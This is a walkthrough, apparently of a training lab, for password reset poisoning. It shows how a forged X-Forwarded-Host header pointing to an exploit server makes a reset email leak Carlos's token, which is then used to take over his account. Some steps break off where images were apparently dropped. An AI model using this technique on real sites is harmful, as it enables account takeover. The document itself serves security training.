



This lab is vulnerable to password reset poisoning. The user `carlos` will carelessly click on any links in emails that he receives. To solve the lab, log in to Carlos's account. You can log in to your own account using the following credentials: `wiener:peter`. Any emails sent to this account can be read via the email client on the exploit server.  
  1\. Check on wiener account and see how rest password feature works:  
It sends a temp-forgot-password token to the email like  
   
 2\. Now we are going to log in as carlos, and send the forgot password request but in this adding an X-FORWARDED-HOST in the request, in this new header we are going to add the exploit server domain.  
   
 3\. If we check in the access log, we are going to find a token not used by carlos' user. Use this token in a new URL to change Carlos' password and solve the lab.  
   
  

## Why You See Carlos's Request in Your Logs

When you send the `POST /forgot-password` request with the `X-Forwarded-Host` header pointing to your exploit server, the vulnerable application uses that header value to **dynamically construct the password reset URL** that gets embedded in the email sent to Carlos.​

Here's the exact flow of what happens:​

1.  **You send**: `POST /forgot-password` with `X-Forwarded-Host: YOUR-EXPLOIT-SERVER.net` and `username=carlos`
    
2.  **The application generates** the reset link using your malicious header instead of the legitimate domain. The backend code constructs something like: `https://YOUR-EXPLOIT-SERVER.net/forgot-password?temp-forgot-password-token=SECRET_TOKEN`​
    
3.  **Carlos receives an email** containing this poisoned link that points to YOUR server (not the legitimate application server)
    
4.  **Carlos clicks the link** in the email (the lab states he "carelessly clicks on any links"), which causes his browser to make a GET request to your exploit server​
    
5.  **Your access logs capture** the incoming request including the token as a URL parameter​
    

## Why This Works

The vulnerability exists because the application **trusts the `X-Forwarded-Host` header** when building email templates. Instead of using a hardcoded domain or the actual `Host` header, the application reads `X-Forwarded-Host` to construct the reset URL dynamically. This causes the email system to send Carlos a legitimate reset token, but wrapped in a URL pointing to your attacker-controlled domain rather than the real application domain.